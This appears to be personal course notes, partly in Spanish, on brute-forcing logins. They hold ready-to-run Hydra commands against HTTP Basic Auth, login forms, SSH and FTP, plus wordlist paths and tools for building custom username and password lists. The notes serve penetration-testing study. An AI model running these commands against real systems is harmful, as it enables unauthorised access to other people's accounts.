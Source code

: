 # Hydra

| **Command**   | **Description**   |
| --------------|-------------------|
| `hydra -h` | hydra help |
| `hydra -C wordlist.txt SERVER_IP -s PORT http-get /` | Basic Auth Brute Force - Combined Wordlist |
| `hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /` | Basic Auth Brute Force - User/Pass Wordlists |
| `hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"` | Login Form Brute Force - Static User, Pass Wordlist |
| `hydra -L bill.txt -P william.txt -u -f ssh://SERVER_IP:PORT -t 4` | SSH Brute Force - User/Pass Wordlists |
| `hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1` | FTP Brute Force - Static User, Pass Wordlist |

# Wordlists

| **Command**   | **Description**   |
| --------------|-------------------|
| `/opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt` | Default Passwords Wordlist |
| `/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt` | Common Passwords Wordlist |
| `/opt/useful/SecLists/Usernames/Names/names.txt` | Common Names Wordlist |

# Misc

| **Command**   | **Description**   |
| --------------|-------------------|
| `cupp -i` | Creating Custom Password Wordlist |
| `sed -ri '/^.{,7}$/d' william.txt` | Remove Passwords Shorter Than 8 |
| ```sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt``` | Remove Passwords With No Special Chars |
| `sed -ri '/[0-9]+/!d' william.txt` | Remove Passwords With No Numbers |
| `./username-anarchy Bill Gates > bill.txt` | Generate Usernames List |
| `ssh b.gates@SERVER_IP -p PORT` | SSH to Server |
| `ftp 127.0.0.1` | FTP to Server |
| `su - user` | Switch to User |
## Introduction to Brute Forcing

```shell
# Programas que se pueden usar:
-Ncrack
-wfuzz
-medusa
-patator
-hydra
```

## Password Attacks

```shell
# Brute Force Attack: No usa listas, sino que intenta adivinar los caracteres, pero esto esta obsoleto porque tarda mucho. Por lo tanto, hemos de usar diccionarios de contraseñas. 

# Metodos de ataque brute-force:
- Online Brute force attack: Atacar aplicaciones mediante el network (HTTP, HTTPS, etc).
- Offline: Romper el hash de una contraseña.
- Reverse brute force attack: Sabiendo la password, intentamos adivinar el usuario. 
- Hybrid Brute force attack: Usando una lista de contraseñas personalizadas creadas a partir de datos sobre el usuario/servicio.
```

## Default Passwords

```shell
# Uso de hydra para cuando no sabemos ni usuario ni password
hydra -C /usr/share/wordlists/defaultcreds.txt 134.209.186.13 -s 32629 http-get /
```

## Web brute force with hydra

```shell
# Primero tenemos que ver si la pagina usa GET o POST:
# GET: Si algo de nuestro input se ve reflejado en la URL de la pagina.
# POST: Sino, es por POST.

# Segundo: Ver si la pagina es HTTP o HTTPS. Esto se ve en la URL.

# Parametros a usar teniendo GET/POST y HTTP/HTTPS:
# URL PATH, POST Parameter, failed/success login string:
# /login.php:[user parameter]=^USER^&[password parameter]=^PASS^:[FAIL/SUCCESS]=[success/failed string]. 
# Si no sabemos que poner de string, podemos probar como poner el panel de log de admin, cosas de la URL, cosas del source, como por ejemplo "form name=login" 

# Otra manera de ver si es GET/POST entramos al network de la pagina (ctrl+shift+E), meter cualquier cosa y que retorna, si get o post:

```
![[Pasted image 20221119232331.png]]![[Pasted image 20221119232457.png]]

```shell
# Una vez sabemos el username, podemos usar este comando pa sacar la password:
hydra -l admin -P /usr/share/wordlists/rockyou.txt -f 178.62.84.158 -s 31236 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```

```shell
# Para bruteforcear ssh:
hydra -l "username" -P "wordlist" -u -f ssh://"ip":"puerto" -t 4
# Para FTP:
hydra -l "username" -P "wordlist" ftp://"ip"
```